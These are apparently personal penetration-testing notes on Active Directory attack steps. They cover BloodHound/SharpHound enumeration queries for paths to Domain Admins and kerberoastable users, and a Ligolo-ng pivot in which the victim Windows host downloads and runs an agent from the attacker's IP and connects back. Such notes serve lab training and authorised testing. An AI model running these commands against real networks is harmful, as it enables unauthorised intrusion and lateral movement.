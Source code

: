  - AD
If domain connected.

Enumerate:

PowerView.ps1

and/or

**Bloodhound** \
try Bloodhound (here we use 4.X as 5.X is not so good as of yet according to collegue 2023-12) \
	(-> then focus on high-value targets) \
 -> THAT IS, run Sharphound on target and transfer result .zip to Kali and run Bloodhound \
NOTE: Use **Sharphound 1.1.1** for the "old" bloodhound in Kali (not Community Edition)

```
# List all computers
MATCH (m:Computer) RETURN m
# List all users
MATCH (m:User) RETURN m

# Check for instance
# Owned users local admin
# Find all Domain Admins
- Find Workstations where Domain Users can RDP
- Find Servers where Domain Users can RDP
- Find Computers where Domain Users are Local Admin
- Shortest Path to Domain Admins from Owned Principals

- All kerberoastable users # (ignore KRBTGT account) (note SPN)

# Active sessions (if we're able to compromise that machine) (TODO didnt show anything for me)
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```



Use different methods of authentication attacks: \
Use pw/ntlm hash.. -> attack \
Create and use tickets.. -> attack

- Use tunneling to access internal networks

For chisel see tunneling, but just use ligolo instead. It can use either SOCKS proxy or TCP tunnel, the latter is easier.\
See <https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5>

Ligolo-ng to seamless reach internal network (no proxychains/socks)

(When available use e.g. evil-winrm to upload files even over tunnel.)

Ligolo-ng, TCP tunnel:
```bash
# Kali listener (=proxy)
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
~/tmp/ligolo_proxy_linux  -selfcert

# Victim (Windows) (=agent)
iwr -uri 192.168.45.248/ligolo_agent_win64.exe -out ligolo_agent_win64.exe
.\ligolo_agent_win64.exe -connect 192.168.45.248:11601 -ignore-cert

# Kali listener (=proxy)
# (IN LIGOLO PROGRAM)
# select active agent
session
# list interfaces (note we can also access 127.0.0.1 if we'd need to)
ifconfig
# start tunnel
tunnel_start
```